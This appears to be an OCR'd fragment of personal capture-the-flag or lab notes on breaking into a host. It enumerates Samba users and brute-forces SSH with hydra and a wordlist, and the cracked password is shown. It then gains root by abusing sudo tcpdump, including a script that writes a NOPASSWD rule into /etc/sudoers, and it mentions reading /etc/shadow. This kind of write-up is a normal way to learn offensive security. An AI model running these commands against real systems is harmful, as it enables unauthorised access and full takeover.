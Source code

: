  // this will open the /etc/shadow file
 // now we can grab to decode or pass the hash, whatever
 // there is endless possibilities


### enum the Samba
```
enum4linux -a 172.16.80.27
```

// we discovered here, a lot of users
// save these users into a file users.txt
// then lets try to log with rockyou.txt For passwords

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.16.80.27
```

	// this will take a time, and i dont like to wait too much
	// the solution says that we can use james user and grab the first 500 entries from rockyou.txt

```
head -n 500 /usr/share/wordlists/rockyou.txt > top-500.txt
hydra -l james -P top-500.txt ssh://172.16.80.27
// 5 minutes later, we have the password
[22][ssh] host: 172.16.80.27   login: james   password: 159357
```

#### log with SSH and execute sudo -l to see the possibilities
```
(root) /usr/sbin/tcpdump - we have tcpdump access
```

// we can search in GTFObins
// there is something we can use

   →  https://gtfobins.github.io/gtfobins/tcpdump/

#### from gtdobins
```bash

COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root

```

#### the solution gave this alternative, both works great
```bash

$ cat > /tmp/elevate
#!/bin/bash
echo "james ALL=(root) NOPASSWD: ALL" >> /etc/sudoers

chmod +x /tmp/elevate

sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/elevate -Z root
sudo bash

```
